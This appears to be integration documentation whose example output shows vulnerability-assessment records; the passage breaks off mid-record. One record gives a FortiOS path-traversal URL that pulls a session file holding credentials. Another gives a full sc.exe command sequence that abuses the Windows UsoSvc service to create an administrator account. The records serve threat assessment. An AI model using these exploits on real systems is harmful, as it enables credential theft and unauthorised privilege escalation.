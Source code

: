 Example input:

```
```

##### Output

|Name|Type|Required|Description|
|----|----|--------|-----------|
|data|[]assessment|False|Returned assessment data|

Example output:

```
{
  "data": [
    {
      "created": "2020-03-25T20:04:57.831425Z",
      "document": "\r\n**Description**\r\n\r\nDue to a pre-authenticated Path Trasversal vulnerability under the SSL VPN portal on FortiOS, an attacker is able to pull arbitrary system files from the file system. One of the most critical files which an attacker may pull is \"sslvpn_websessions\" which contains session information including usernames and password.\r\n\r\nOnce the attacker has obtained the credentials from this file, he can authenticated with those credentials, compromising the corporate perimeter.\r\n\r\n**Mitigation**\r\n\r\n- Upgrade to FortiOS 5.4.13, 5.6.8, 6.0.5 or 6.2.0 and above.\r\n- Enable 2FA. Note the attacker will not be able to log in to the VPN, but the obtained credentials are still valid (potencial domain creds) to access corporate mail, etc.\r\n\r\n**Affected Systems**\r\n\r\n- FortiOS 6.0: 6.0.0 to 6.0.4\r\n- FortiOS 5.6: 5.6.3 to 5.6.7\r\n- FortiOS 5.4: 5.4.6 to 5.4.12\r\n\r\nNOTE: Only if the SSL VPN service (web-mode or tunnel-mode) is enabled.\r\n\r\n**PoC**\r\n\r\nThere are some public working exploits for this vulnerability, targeting the \"sslvpn_websessions\" system file.\r\n\r\nAn attacker would access the following URL:\r\n- https://\u003cIP_ADDRESS\u003e/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession\r\n\r\nAnd after some parsing to the binary file, something like the following output would be obtained:\r\n\r\n![LOGO] (https://devco.re/assets/img/blog/20190807/4.png)\r\n\r\nNOTE: Example image obtained from https://devco.re/blog/2019/08/09/attacking-ssl-vpn-part-2-breaking-the-Fortigate-ssl-vpn/\r\n\r\n",
      "editorId": "10bfc743-3786-435c-88e8-56e791bbc053",
      "id": "6db90257-86b5-4748-ae01-82cea24fcfdb",
      "metadata": {
        "attacker-value": 5,
        "exploitability": 5,
        "tags": [
          "easy_to_develop",
          "pre_auth"
        ]
      },
      "revisionDate": "2020-03-25T20:04:57.835948Z",
      "score": 1,
      "topicId": "35b88369-c440-49c0-98ff-c50e258fb32c"
    },
    {
      "created": "2020-03-25T15:59:33.70864Z",
      "document": "This is an elevation of privilege vulnerability that exists when Windows improperly handles authentication requests by leveraging the Update Orchestrator Service. If an attacker successfully exploits this vulnerability they can run processes in an elevated context. \r\n\r\n\r\n**Prerequisite**:  \r\n\r\nThe Update Orchestrator Service runs as NT AUTHORITY\\SYSTEM and any user in the group NT AUTHORITY\\SERVICE have full access to modify the service.\r\n\r\nIt is known to affect Windows 10 1803 and above that have not been updated with the November 12th, 2019 security update patch (or above).\r\n \r\n\r\n**Exploitation**: \r\n\r\nCreate tmpUser, add to local administrators group, and reset the service to its default state.\r\n\r\n```sh\r\nsc.exe stop UsoSvc\r\nsc.exe config UsoSvc binPath=\"cmd /c net user /add tmpUser tmpPassword123\"\r\nsc.exe start UsoSvc\r\nsc.exe stop UsoSvc\r\nsc.exe config UsoSvc binPath=\"cmd /c net localgroup Administrators /add tmpUser\"\r\nsc.exe start UsoSvc\r\nsc.exe stop UsoSvc\r\nsc.exe config UsoSvc binPath=\"C:\\Windows\\System32\\svchost.exe -k netsvcs -p\"\r\nsc.exe start UsoSvc\r\n```",
      "editorId": "476d5018-c9fe-422d-825b-d5601af6bcf0",
      "id": "47f78818-b766-47ca-8262-d7abc8dced66",
      "metadata": {
```